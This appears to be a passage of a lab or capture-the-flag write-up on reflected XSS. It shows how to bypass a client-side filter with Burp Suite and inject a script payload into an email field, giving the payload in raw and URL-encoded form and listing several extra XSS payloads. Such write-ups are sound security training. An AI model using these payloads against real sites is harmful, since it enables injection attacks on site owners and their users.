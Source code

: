 ## 2️⃣ Bypass the Client-Side Filter with Burp
👉 Client-side filters only stop you in the browser.  
Burp lets us edit the raw HTTP request before sending it to the server.  

Steps:
- Open Burp → Turn Proxy Intercept **ON**.  
- Fill out the form normally:  
  - Email: pentester@example.thm  
  - Query: Test Attack  
- Submit → Burp intercepts the request.  



## 3️⃣ Inject the Payload
Inside Burp Proxy, find the email field in the captured request:  
```bash
email=pentester@example.thm&query=Test+Attack  
```
Replace the email value with your payload:  
```bash
email=<script>alert("Succ3ssful XSS")</script>&query=Test+Attack  
```


## 4️⃣ URL Encode the Payload
If we send raw <script> characters, the request might break.  
So we URL-encode it (Burp shortcut: Ctrl + U).  

Encoded version becomes:  
```bash
email=%3Cscript%3Ealert(%22Succ3ssful+XSS%22)%3C%2Fscript%3E&query=Test+Attack  

```
## 5️⃣ Forward the Request
- Click **Forward** in Burp.  
- Browser receives the server’s response.  

🎉 You should see an alert popup:  
```bash
Succ3ssful XSS  
```


# ✅ Key Takeaways
- Client-side filters are weak: bypassable by intercepting requests.  
- URL encoding is often required for safe payload delivery.  
- Burp Proxy allows full control over modifying traffic before the server sees it.  
- Reflected XSS only affects the current request/response (not stored).  



# ⚡ Pro Tip: Extra Payloads to Try
```bash
<img src=x onerror=alert(1)>  
"><svg/onload=alert(1337)>  
<script>confirm('XSS')</script>  
```

